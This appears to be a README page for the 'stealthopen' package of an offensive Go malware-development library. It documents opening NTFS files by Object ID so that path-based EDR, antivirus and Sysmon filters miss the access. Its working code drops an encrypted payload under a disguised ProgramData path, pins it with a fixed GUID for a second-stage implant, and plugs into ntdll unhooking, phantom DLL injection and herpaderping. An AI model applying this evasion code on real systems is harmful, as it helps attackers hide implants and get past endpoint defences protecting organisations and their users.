

# StealthOpen — NTFS Object ID File Access

[<- Back to Evasion](README.md)

**MITRE ATT&CK:** [T1036 - Masquerading](https://attack.mitre.org/techniques/T1036/)
**Package:** `evasion/stealthopen`
**Platform:** Windows (NTFS only)
**Detection:** Low

---

## Primer

Most file-monitoring tools (EDR minifilters, AV path filters, `Sysmon`
FileCreate rules) decide whether to alert based on the **filename or path**
that the process tried to open. If you can open the same file without ever
mentioning its path, those filters go blind.

NTFS supports this natively. Every file can carry a 128-bit **Object ID** in
its MFT record. Once that Object ID is known, Win32's `OpenFileById` opens the
file by GUID — the kernel never sees a path in the open request, so any hook
matching on `*.docx`, `ntds.dit`, `lsass.dmp`, etc. simply does not fire.

---

## How It Works



**Key points:**
- `FSCTL_CREATE_OR_GET_OBJECT_ID` lazily assigns an Object ID if the file has
  none; `FSCTL_SET_OBJECT_ID` installs a caller-chosen GUID (useful for
  pre-shared identifiers between implant and operator).
- `OpenFileById` with `FILE_ID_TYPE = ObjectIdType` requires a volume handle,
  not a path — the kernel dispatches straight to the MFT.
- Minifilters that resolve `FILE_OBJECT` back to a path via
  `FltGetFileNameInformation` **do** still see the real file — this technique
  defeats name-keyed filters, not every defensive mechanism.

---

## Usage

```go
import "github.com/oioio-space/maldev/evasion/stealthopen"

// One-time: stamp the sensitive file so we can recall its GUID later.
id, err := stealthopen.GetObjectID(`C:\sensitive.bin`)
if err != nil {
    log.Fatal(err)
}

// Later — without ever mentioning the path:
f, err := stealthopen.OpenByID(`C:\`, id)
if err != nil {
    log.Fatal(err)
}
defer f.Close()

io.Copy(os.Stdout, f)
```

**Installing a known GUID** (pre-shared between stager and second stage):

```go
well := [16]byte{0xDE, 0xAD, 0xBE, 0xEF, /* ... */}
_ = stealthopen.SetObjectID(`C:\ProgramData\tmp.cfg`, well)

// Second stage knows the GUID by constant — no path string on either side.
f, _ := stealthopen.OpenByID(`C:\`, well)
```

---

## Combined Example

Drop an encrypted payload, stamp it with a fixed Object ID, then delete all
path traces from the implant so a later call opens the same bytes without any
filename string ever appearing in the implant image or in the kernel open
request.

```go
package main

import (
    "io"
    "os"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion/stealthopen"
)

// Baked-in GUID — the only reference the second stage needs.
var payloadID = [16]byte{
    0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88,
    0x99, 0xaa, 0xbb, 0xcc, 0xdd, 0xee, 0xff, 0x00,
}

func drop(key, plaintext []byte) error {
    const tmp = `C:\ProgramData\Intel\update.bin`
    blob, _ := crypto.EncryptAESGCM(key, plaintext)
    if err := os.WriteFile(tmp, blob, 0o644); err != nil {
        return err
    }
    return stealthopen.SetObjectID(tmp, payloadID)
}

func reopen(key []byte) ([]byte, error) {
    f, err := stealthopen.OpenByID(`C:\`, payloadID)
    if err != nil {
        return nil, err
    }
    defer f.Close()
    blob, err := io.ReadAll(f) // read via the path-free handle
    if err != nil {
        return nil, err
    }
    return crypto.DecryptAESGCM(key, blob)
}
```

The implant binary never contains the string `update.bin` nor a hard-coded
path — only the 16-byte GUID. Any EDR matching on `*.bin` under
`C:\ProgramData` misses the reopen.

---

## Composing with Other Packages — the `Opener` Pattern

Reading a sensitive file directly (low-level `OpenByID` call) is fine for
one-off access. For the packages inside maldev that **themselves** open
sensitive files (unhook reading ntdll, phantomdll reading System32 DLLs,
herpaderping reading the payload), stealthopen exposes an `Opener`
abstraction that mirrors how `*wsyscall.Caller` is passed through the
code: an optional, nil-safe handle that consuming packages accept as a
plain parameter.

```go
type Opener interface {
    Open(path string) (*os.File, error)
}

// Standard: plain os.Open. Default when the caller passes nil.
type Standard struct{}

// Stealth: captures (volume, ObjectID) once, then all Open() calls go
// through OpenFileById — path-based file hooks never fire.
type Stealth struct {
    VolumePath string
    ObjectID   [16]byte
}

// NewStealth derives both fields from a real path in one call, so the
// caller just hands the result to the consuming package.
func NewStealth(path string) (*Stealth, error)

// Use normalizes the nil case to Standard.
func Use(opener Opener) Opener
```

### The pattern in practice

```go
import (
    "github.com/oioio-space/maldev/evasion/stealthopen"
    "github.com/oioio-space/maldev/evasion/unhook"
)

sysDir, _ := windows.GetSystemDirectory()
ntdllPath := filepath.Join(sysDir, "ntdll.dll")

// One-time: capture ntdll's Object ID + volume root.
stealth, err := stealthopen.NewStealth(ntdllPath)
if err != nil { /* non-NTFS, or no ObjectID — fall back to nil */ }

// Hand it to every unhook call; any path-based EDR hook on CreateFile
// for ntdll.dll never fires. nil = same as before (path-based read).
_ = unhook.ClassicUnhook("NtCreateSection", caller, stealth)
_ = unhook.FullUnhook(caller, stealth)
```

### Where it's wired today

| Consumer | Function / Config field | What gets stealth-opened |
|---|---|---|
| `evasion/unhook.ClassicUnhook` | 3rd arg | `System32\ntdll.dll` |
| `evasion/unhook.FullUnhook` | 2nd arg | `System32\ntdll.dll` |
| `inject.PhantomDLLInject` | 4th arg | `System32\<dllName>` (read **and** the HANDLE passed to `NtCreateSection`) |
| `process/tamper/herpaderping.Config.Opener` | struct field | `PayloadPath` + `DecoyPath` |

All four treat nil as "use the existing path-based open" — no behavior
change for existing callers. Tests in `evasion/stealthopen/opener_test.go`,
`evasion/stealthopen/opener_windows_test.go`, `evasion/unhook/opener_windows_test.go`,
`inject/phantomdll_opener_test.go`, and `process/tamper/herpaderping/opener_windows_test.go`
pin the contract (spy-opener call-counting + real end-to-end round-trip
through OpenFileById).

### Limitations to remember

- **NTFS only.** ReFS / FAT32 / UNC shares without NTFS expose no Object ID.
  Detect by checking `NewStealth`'s error.
- **Object ID must preexist** on the target file. System32 DLLs generally
  do have one; fresh payloads may need `GetObjectID` (creates on demand,
  often works without admin) or `SetObjectID` (admin, lets you pin a
  fixed GUID).
- **Volume root required.** `VolumeFromPath` extracts it from drive-letter,
  Win32-prefixed, and UNC paths — but a `\\?\Volume{GUID}\` root needs
  `GetVolumePathName` under the hood; the helper does that for you.
- **Not a magic bullet.** Minifilters that resolve the final `FILE_OBJECT`
  to a path **after** the open still see the real path. This beats
  name-keyed pre-open filters, not every defensive mechanism.

---

## API Reference

See [evasion.md](../../evasion.md) (table row: `evasion/stealthopen`)
